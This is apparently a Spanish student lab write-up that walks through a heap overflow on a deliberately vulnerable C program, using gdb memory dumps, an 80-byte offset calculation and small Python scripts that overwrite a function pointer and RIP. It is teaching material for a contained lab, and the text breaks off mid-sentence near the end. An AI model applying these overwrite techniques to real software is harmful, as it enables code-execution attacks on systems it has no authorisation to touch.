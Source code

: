 # HeapOverflow Carlos Dominguez
En esta práctica seguiremos los siguientes pasos para lograr un heap-overflow que nos permite abrir una foto.

Empecemos creando y ejecutando el contenedor Docker donde se harán las pruebas:
```
docker build -t heap .
docker run --rm -it --name heap heap
```
Una vez estamos dentro podemos analizar un poco el código vulnerable, el código que vaamos a romper:
```
int main(int argc, char **argv) {
    struct sdata *smidat;
    struct sfp *f;

    smidat = malloc(sizeof(struct sdata));
    f = malloc(sizeof(struct sfp));
    f->fp = fesperofuera;

    printf("data: está en [%p], el puntero fp está en [%p]\n", smidat, f);

    strcpy(smidat->buffer, argv[1]);

    f->fp();

    free(smidat);
    free(f);

    return 0;
}
```
Vemos que en ningún lugar del main vamos a llamar a la función esta
```
void fentrar() {
    printf("Pasando\n");
}
```
De forma que nuestra intención inicial como atacantes va a ser concseguir la ejecución de esta. Otro detalle que debemos destacar es que vamos a tener un struct que almacena una cadena de carácteres de tamaño 64 bytes, de forma que vamos a ver que pasa  en una ejecución normal vs una ejecución que la desborde:
![image](https://github.com/user-attachments/assets/ccc39f58-8e96-48d2-9c69-67d6398bb735)

Vemos que en la ejecución normal llegamos al final del programa ejecutando todo sin problemas, pero al forzar el overflow vemos que al llegar a la función
```
strcpy(smidat->buffer, argv[1]);
```
El sistema nos reporta que hemos accedido a una posición fuera de nuestro rango con
```
Segmentation fault (core dumped)
```
Por otro lado, destaquemos lo que hace el otro struct que almacenamos en el heap. Este guarda un puntero a una función, de forma que en el main se usa para que apunte a la función espero_fuera y luego llamar a esta desde el puntero.

Ahora vamos a ejecutar un debugger (gdb) para analizar el comportamiento de este programa:
```
gdb ./heapexample
```
Colocamos un break point en el punto en el que se llama a la función espero_fuera desde el puntero f:
![image](https://github.com/user-attachments/assets/b05b7378-974a-4a6b-a498-de59c007f942)

Tras esto, vamos a lanzar el comando
```
info proc map
```
Que nos muestra información sobre el proceso en ejecución. En concreto busacamos ver como se está organizando la memoria:
![image](https://github.com/user-attachments/assets/cba2b7e9-10ed-4910-a753-1099d54a5bcf)

En concreto, buscamos analizar el estado del heap, que en mi caso se encuentra entre las siguientes direcciones de memoria
```
Start Addr         End Addr    Size           Offset objfile
0x405000           0x426000    0x21000        0x0 [heap]
```
Ahora vamos a mostrar en detalle el contenido de esta zona de memoria, para ello ejecutamos:
```
x/120x 0x405000 
```
Donde el primer argumento expresa cuantas direcciones vamos a analizar y el segundo desde que posición lo haremos:
![image](https://github.com/user-attachments/assets/7c62b78d-ea3e-4ed1-bda8-f2f4a869f2de)

Aquí deberiamos buscar la cadena que hemos introducido "XXXX" que en hexadecimal sería "0x58585858", pero no la vemos.
Entonces vamos a aumentar el tamaño de direcciones que checkeamos:
```
x/240x 0x405000 
```
Con resultado: 
![image](https://github.com/user-attachments/assets/47d34e3b-5f8e-4d77-a450-71df0be9c8f7)

Donde ya podemos ver la cadena que buscabamos, así como la posición en la que comienza la función espera_fuera:
![image](https://github.com/user-attachments/assets/0f8903e0-2118-46a6-977b-e7b2bc6b40cf)

Para ubicar mejor donde empieza la función usaremos:
```
disass fesperofuera
```
![image](https://github.com/user-attachments/assets/134b4512-1d89-4c09-b03b-1ecde7b49cdc)

Ahora que tenemos la información que buscabamos ya podemos salir del debbuger con 
```
q
```

Ahora vamos a ejecutar un pequeño programa de python que nos deje analizar el comportamiento de la memoria ante un desbordamiento:
```
program.1:
#!/usr/bin/python3
print('X' * 90)
```

Antes de nada vamos a darle permisos y probar que funciona como es debido:
![image](https://github.com/user-attachments/assets/a91a2aab-a6de-4803-b5e0-0f7f9c9358ea)

Una vez vemos que funciona vamos a ejecutarlo para que nos de la entrada esperada de nuestro código vulnerable:
```
./heapexample $(./pp1)
```
Donde nuevamente vemos que hay un problema por desbordamiento:
![image](https://github.com/user-attachments/assets/5129e284-6665-4e61-b118-577ce1e6ff00)

Ahora veamos dentro de gdb que esta sucediendo (ejecutamos todos los pasos anteriores hasta justo antes de hacer run XXXX) ejecutando 
```
run $(program.1)
```
y volvemos a analizar el heap:
![image](https://github.com/user-attachments/assets/a34704fd-379a-45d8-b6a3-154d8f9c418b)

Viendo que hemos sobreescrito la primera instrucción de fesperandofuera.

¿Y como podríamos aprovechar esto?

Para ellos, vamos a volver a ver como se organiza el heap:
![image](https://github.com/user-attachments/assets/0d91f6a3-bfa4-4d16-bf19-cb0283f072f9)

Donde vemos que el número máximo de carácteres que podemos insertar es 
```
0x4052f0 (donde empieza fesperofuera) - 0x4052a0 (donde empieza el buffer) = 80
```

Por tanto, vamos a ver que pasa al introducir una cadena de este tamaño con el siguiente programa de python:
```
program.2:
#!/usr/bin/python3
print('X' * 70 + 'YAYBYCYDYEYFYG')
```
De forma que deberíamos prestar especial atencion a la última parte de la cadena "YFYG" = 0x47594659. Vamos a ver donde se sobreescribe esto ejecutando:
```
gdb -q ./heapexample
(gdb) run $(./pp2)
```
Y analicemos la memoria en el heap:

![image](https://github.com/user-attachments/assets/34b01a17-d6d2-488f-a2d5-2de408f73f66)

Donde podemos ver que hemos sobreescrito la zona de la funcion fesperofuera con la cadena "0x47594659" = YFYG (little endian).

Por otro lado, tras ejecutar con esta entrada si observamos los registros del sistema con:
```
info registers
```
vemos que hemos sobreescrito el RIP con esta cadena:
![image](https://github.com/user-attachments/assets/32f202a6-1c07-4c59-8ab4-3aeb843ac220)

¿C

```
program.3:
#!/usr/bin/python3
print('X' * 80 + 'CDEF')
```
